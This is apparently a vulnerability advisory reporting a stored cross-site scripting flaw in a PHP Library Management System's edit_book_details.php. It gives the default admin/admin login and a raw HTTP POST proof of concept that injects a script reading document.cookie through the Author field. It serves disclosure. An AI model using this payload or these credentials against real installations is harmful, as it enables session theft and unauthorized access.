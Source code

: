 # Library Management System v1.0 by kingbhob02 has Stored Cross-Site Scripting

# BUG_Author: z1pwn

# Date: 07.22.2022

Login account: admin/admin (Super Admin account)

# Software:

https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html

#Description： #The Line 278 of edit_book_details.php sends unvalidated data to a web browser, which can result in the browser executing malicious code.

#echo $edit_book_details->Author;

#PoC：

```sql
POST /LMS/librarian/edit_book_details.php?id=192 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/LMS/librarian/edit_book_details.php?id=192
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=7v8p4p3goshl3b4fkncu3bh9ui
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 161

Section=Filipiniana&Subject=1&book=1&Copyright=1&Title=1&availability=1&Author=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&ISBN=1&status=DAMAGE&submit=
```


![image](https://user-images.githubusercontent.com/49387143/180383086-997c5e24-4934-4ae7-883b-9a6fb02ff6fa.png)
